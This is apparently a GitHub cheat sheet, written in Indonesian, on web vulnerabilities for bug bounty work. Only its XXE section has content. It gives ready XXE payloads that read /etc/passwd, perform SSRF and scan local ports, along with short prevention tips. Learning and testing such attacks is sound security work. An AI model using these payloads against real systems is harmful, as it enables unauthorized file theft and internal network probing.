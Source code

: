 # VULNERABILITY :bug:

<p align="center"><img src="https://user-images.githubusercontent.com/52058660/89898222-85c0a500-dc0a-11ea-9eca-815238a55a38.jpg" width="500"></p>

Online resource:
- [bugbounty-cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet) - by EdOverflow
---

## XXE
Sebelum memahami XXE, kita harus memiliki pengetahuan dasar XML, DTD dan entity. Tools yang digunakan adalah Burpsuite, lebih mantap lagi jika menggunakan Burp Collaborator (*berbayar*).
- **Detection**
  - [Cari](https://christian-schneider.net/GenericXxeDetection.html) aplikasi yang mengirimkan data dalam format XML, disebut juga XML endpoint
  - Intercept web page, lalu cari web yang request header `Content-Type`-nya `text/xml` atau `application/xml`
  - Cari fitur web yang mengunakan XML, seperti RSS, SOAP
  - Cara cepat menemukan XML endpoint adalah automasi
  
- **Exploitation**
  - Retrieve Files. Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian !DOCTYPE
    > `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>`
  - Exploiting to perform Server Side Request Forgery (SSRF). Sama seperti cara di atas. Tapi jika sebelumnya menggunakan `file`, untuk exploitasi ini menggunakan `http` dilanjutkan dengan ip server
    > `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://1”> ]>`
  - Jika tidak bisa modifikasi !DOCTYPE, gunakan `XInclude`
    > `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
  - Test local machine port (gunakan burp intruder). Brute port dari ip local, lalu cek bergantian http dan https
    > `<!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">`
    > `<!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">`
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/). Store XML payload ke server, jika tidak punya gunakan [filebin](https://filebin.net/)
    
- **Prevention**
  - Disable DTD
  - Disable entity saja
---
## Subdomain Takeover

---
## SQL Injection

---
## XSS

